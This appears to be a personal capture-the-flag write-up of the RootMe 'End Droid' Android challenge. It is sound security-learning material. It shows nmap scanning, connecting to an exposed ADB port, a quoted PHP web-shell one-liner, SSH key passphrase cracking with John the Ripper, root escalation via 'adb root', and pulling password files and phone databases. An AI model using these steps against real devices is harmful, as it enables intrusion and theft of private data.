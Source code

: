 ```yaml
---
title: RootMe - End Droid Writeup
date: 2023-10-08
categories: [RootMe, Realistic]
tags: [RootMe, RootMe - Realistic, WriteUp, Android]
author: barabulkit
---
```


# RootMe - End Droid

This challenge is kinda dissappointing for me (honestly i didn't validate it)\
But i will consider like i did, cause i guess i found anything possible, and even the flag, i'm just not able to validate it

This is challenge about android and all we have is the server address, so i started with 

```shell
nmap -PN -sT -sV -p0-65535 ctf04.root-me.org
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 19:17 +03
Nmap scan report for ctf04.root-me.org (212.129.28.21)
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp open  http    PHP cli server 5.5 or later
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)

Service Info: OS: Android; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds
```

We can see that there is ADB service at 5555 port\
lets install adb client to kali and connect to this service
```shell
sudo apt install android-tools-adb android-tools-fastboot
```

And then connect to device
```shell
adb connect ctf04.root-me.org
```

now we can start searching for flag on the server
```shell
ls /mnt/shell/emulated/0
Alarms
Android
Boot_Shell
DCIM
Download
Movies
Music
Podcasts
Ringtones
htdocs
kickwebinfo
obb
passwd
ssh
storage
www
```

I have found what i was looking for there (passwd file), but wasn't able to read it
```shell
adb shell cat /mnt/shell/emulated/0/passwd
/system/bin/sh: cat: /mnt/shell/emulated/0/passwd: Permission denied
```

i wasn't knowing why i can't read it yet, so i just continued my investigation\
And found php backdoor
```
adb shell cat /mnt/shell/emulated/0/www/public/announce/backdoor.php
<?php system($_POST['secret']);?>
```

Unfortunately this is not very usefull cause this is the same thing as `adb shell`\
But then i found private ssh key
```shell
adb shell ls /mnt/shell/emulated/0/www/public/secret22000
touhid.key
```

So i pulled it and tried to connect to ssh with it
```shell
adb pull touhid.key
ssh -i touhid.key -p 22000 touhid@ctf04.root-me.org
```

But got prompted that i need a passphase for this key\
So i cracked this with johntheripper

```shell
ssh2john touhid.key > touhid.hash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10.txt
john --wordlist=darkweb2017-top10.txt touhid.hash
john --show touhid.hash

touhid.key:qwerty

1 password hash cracked, 0 left
```

But it didn't give me anything, i was not able to connect even with passphrase
```shell
ssh -i touhid.key -p 22000 touhid@ctf04.root-me.org
touhid@ctf04.root-me.org: Permission denied (publickey).
```

Then i went to google to read more about adb and android filesystem\
And i found that i can try to get root with just
```shell
adb root
```

and it worked, but i still couldn't read passwd file
```shell
adb shell cat /mnt/shell/emulated/0/passwd
/system/bin/sh: cat: /mnt/shell/emulated/0/passwd: Permission denied
```

And that was because i read it from wrong location, there is actual storage at `/data/media/0` that is the same as `/mnt/shell/emulated/0`
And i was able to read passwd from it
```shell
adb shell cat /data/media/0/passwd
c1937a38926e84f2c5995438afd6e41f
```

I can even change access rights to this file through `/data/media/0`
```shell
adb shell chmod 777 /data/media/0/passwd
```

And now i can read it even from `/mnt/shell/emulated/0`
```shell
adb shell cat /mnt/shell/emulated/0/passwd
c1937a38926e84f2c5995438afd6e41f
```

And looks like thats it, i have solved the challenge, but i only was able to validate it on virtual env page for this challenge
![validated](/assets/img/rootme/realistic/enddroid/realistic-enddroid.png)

But i wasn't able to validate a challenge with this flag at the challenge page so it still not finished
I even tried to do a bit more, i found flag.txt
```shell
adb shell cat /data/root/flag.txt 
No flag here but you can check your sms :) !
```

But it is not a flag, but there is a hint to check sms.
So i downloaded sms database with
```shell
adb pull /data/data/com.android.providers.telephony/databases/mmssms.db
```

But it was empty, i then downloaded calendar database, downloads database, gmail database, and in all this dbs there was nothing\
I also found another way to obtain flag i already have through superuser database
```shell
adb pull  /data/data/com.thirdparty.superuser/databases/

/data/data/com.thirdparty.superuser/databases/: 4 files pulled, 0 skipped. 0.0 MB/s (119912 bytes in 3.169s)
```

![superuserdb](/assets/img/rootme/realistic/enddroid/enddroiddb.png)

So that is all i was able to find in this challenge and still was not able to validate it, but at least i learned a bit about android